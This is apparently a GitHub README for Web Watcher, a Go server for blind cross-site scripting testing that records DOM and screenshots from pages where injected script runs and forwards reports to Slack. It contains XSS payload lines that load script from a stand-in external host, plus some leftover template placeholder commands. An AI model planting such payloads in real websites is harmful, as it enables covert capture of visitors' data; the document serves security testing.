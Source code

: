 # Web Watcher  
Golang server for testing blind XSS.   
Special endpoint for testing requests and file extensions.  

## Setup  
1. Install  
```
go install github.com/pichik/webwatcher@latest // isthiscomment?
```
2. Set permissions for ports 
```
sudo setcap CAP_NET_BIND_SERVICE+ep ~/go/bin/webwatcher
```
<pre><code>```bash
echo hi
# This command does something
$ some-command

# This command does something else
$ another-command
```{.copy}
</code></pre>
3. Setup `.wwconfig` and add it to your home directory.  
4. Make sure that `assets` and `templates` are in the directory specified in config.  


## Usage
Login to your website with /login?token=[token]  

After authentication, you can find all requests in `/results/all`.  
Left side is from  XSS requests.  
Right side is from custom path requests.  
![results](screenshots/results.png)  


### Collecting simple request data from path you specified in config  
This endpoint will contain response specified in `assets/extensions.json` file  

**Example:**  
Set `"CollectorPath":"examplepath"` in `.wwconfig`  
Set `.js` extension with payload `alert(1)` in `assets/extensions.json`  
Insert this payload to the website, alert will popup.  
`<script src=https://domain.com/examplepath.js></script>`  

### Collecting data from blind XSS  
You can find detailed report for your XSS, with DOM and Screenshort.  
These request will be sent to slack, if specified in config.
`<script src=https://example.com></script>`  
![blind xss](screenshots/blindxss.png)  



